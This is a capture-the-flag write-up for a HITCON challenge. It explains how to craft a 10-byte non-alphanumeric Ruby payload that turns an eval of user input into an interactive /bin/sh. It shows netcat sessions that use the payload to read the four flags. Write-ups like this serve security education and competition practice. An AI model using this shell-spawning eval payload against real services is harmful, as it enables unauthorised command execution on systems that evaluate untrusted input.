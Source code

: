 ## hard to say - Misc 4x50 Problem - Writeup by Robert Xiao (@nneonneo)

This cute little Ruby program accepts a *non-alphanumeric* string of a certain maximum length and `eval`s it. So, our goal is just to write some non-alphanumeric Ruby shellcode. There are four problem instances, accepting 1024, 64, 36 and 10 byte inputs respectively. Since we want all the flags, we'll just focus on making a 10-byte shellcode.

Ruby has the backtick operator (``` `` ```) which lets us execute a shell command. Inside the backticks, Ruby also supports standard interpolation operators (`#{}`) which will run Ruby code and insert the result into the shell command string. Our goal is to get the shell command to equal `$0`, which will give us a usable interactive shell (since `$0` is set to `/bin/sh`). Normally we might do `` `$0` `` but since numbers are banned we'll create the `0` using Ruby code.

Ruby has a ton of global magic variables of the form `$<symbol>`. None of them have the value 0 by default. However, `$.`, the current input line number, is always equal to one since you're executing the first line inside an `eval` context. We can use that to create our desired zero with some bitwise operations: `~-$.` (negating gives -1, and inverting gives 0).

Putting that all together, then, we have the shellcode

	`$#{~-$.}`

which is exactly 10 bytes long. We use it to get all the flags:

	$ nc 54.199.215.185 9001
	Hi, I can say 1024 bytes :P
	`$#{~-$.}`
	I think size = 10 is ok to me.
	cat flag
	hitcon{what does the ruby say? @#$%!@&(%!#$&(%!@#$!$?...}
	
	$ nc 54.199.215.185 9002
	Hi, I can say 64 bytes :P
	`$#{~-$.}`
	I think size = 10 is ok to me.
	cat flag
	hitcon{Ruby in Peace m(_ _)m}
	
	$ nc 54.199.215.185 9003
	Hi, I can say 36 bytes :P
	`$#{~-$.}`
	I think size = 10 is ok to me.
	cat flag
	hitcon{My cats also know how to code in ruby :cat:}
	
	$ nc 54.199.215.185 9004
	Hi, I can say 10 bytes :P
	`$#{~-$.}`
	I think size = 10 is ok to me.
	cat flag
	hitcon{It's hard to say where ruby went wrong QwO}

(Note that, due to buffering, it is necessary to press Ctrl+D to flush the command input after typing `cat flag`).
